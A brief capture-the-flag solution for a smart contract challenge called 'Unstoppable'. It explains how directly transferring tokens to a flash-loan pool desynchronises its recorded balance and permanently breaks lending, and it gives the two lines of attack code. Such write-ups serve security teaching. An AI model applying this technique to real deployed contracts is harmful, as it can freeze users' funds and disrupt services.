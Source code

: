 # Unstoppable

This challenge expects you to break the functionality of a flash loan.
This can be achieved by making a discrepency between the ```poolBalance``` and ```balanceBefore```
Increase the allowance and send some tokens from the attacker to the pool by using ```transfer``` instead of the ```depositTokens``` method that increments the ```poolBalance```


```
        await this.token.connect(attacker).increaseAllowance(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE);
        await this.token.connect(attacker).transfer(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE)     
```
